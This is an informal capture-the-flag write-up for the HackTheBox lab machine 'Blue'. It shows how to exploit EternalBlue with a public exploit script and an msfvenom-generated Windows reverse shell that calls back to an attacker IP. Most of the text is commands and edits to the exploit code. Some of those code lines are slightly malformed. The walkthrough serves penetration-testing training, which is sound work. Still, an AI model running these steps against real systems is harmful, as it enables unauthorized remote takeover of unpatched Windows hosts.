



manual through serachsploit db
searchsploit eternalblue
mirror the exploit to our box with
searchsploit -m windows/remote/42315.py
next, we'll have to generate a reverse shell payload in .exe format for eternal blue to call back to us when after it root's our victim, msfvenom is perfect for this
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.13 LPORT=4444 > eternal-blue.exe

now before we can run the exploit, there are a couple of things we need to change:
first because Blue's smb share allows guest logins, set the
USERNAME='guest'

next, the eternal-blue exploit will send our payload via the smb_send_file method, so give that function the absolute path of our exploit, followed by where it will be saved on our victim
smb_send_file(smbConn, /root/Documents/htb/boxes/blue/eternal-blue.exe. 'C', '/eternal-blue.exe')
and finally,
have the victim execute our reverse shell with
service_exec(r'cmd /c c:\eternal-blue.exe)

now run our exploit with
python 42315.py 10.10.10.40

and be sure to have a listener setup to catch our reverse shell

and we're system!
